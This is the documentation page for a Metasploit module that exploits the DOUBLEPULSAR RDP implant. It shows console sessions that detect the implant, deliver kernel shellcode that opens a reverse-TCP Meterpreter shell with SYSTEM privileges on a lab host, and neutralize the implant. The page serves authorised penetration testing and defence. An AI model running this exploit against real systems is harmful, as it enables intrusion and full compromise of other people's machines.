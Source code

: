 ## Introduction

This module executes a Metasploit payload against the Equation Group's
DOUBLEPULSAR implant for RDP.

While this module primarily performs code execution against the implant,
the `Neutralize implant` target allows you to disable the implant.

## Targets

```
Id  Name
--  ----
0   Execute payload
1   Neutralize implant
```

## Options

**DefangedMode**

Set this to `false` to disable defanged mode and enable module
functionality. Set this only if you're SURE you want to proceed.

**ProcessName**

Set this to the userland process you want to inject the payload into.
Defaults to `spoolsv.exe`.

## Usage

Pinging the implant:

```
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > check

[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows Server 6.1.7601 x64
[+] 192.168.56.115:3389 - The target is vulnerable.
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) >
```

Executing a payload:

```
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > set target Execute\ payload
target => Execute payload
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows Server 6.1.7601 x64
[*] 192.168.56.115:3389 - Generating kernel shellcode with windows/x64/meterpreter/reverse_tcp
[*] 192.168.56.115:3389 - Total shellcode length: 4096 bytes
[*] 192.168.56.115:3389 - Sending shellcode to DOUBLEPULSAR
[*] Sending stage (206403 bytes) to 192.168.56.115
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.115:49158) at 2019-11-25 18:10:21 -0600
[+] 192.168.56.115:3389 - Payload execution successful

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-S7TDBIENPVM
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

Neutralizing the implant:

```
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > set target Neutralize\ implant
target => Neutralize implant
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows Server 6.1.7601 x64
[*] 192.168.56.115:3389 - Neutralizing DOUBLEPULSAR
[+] 192.168.56.115:3389 - Implant neutralization successful
[*] Exploit completed, but no session was created.
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) >
```
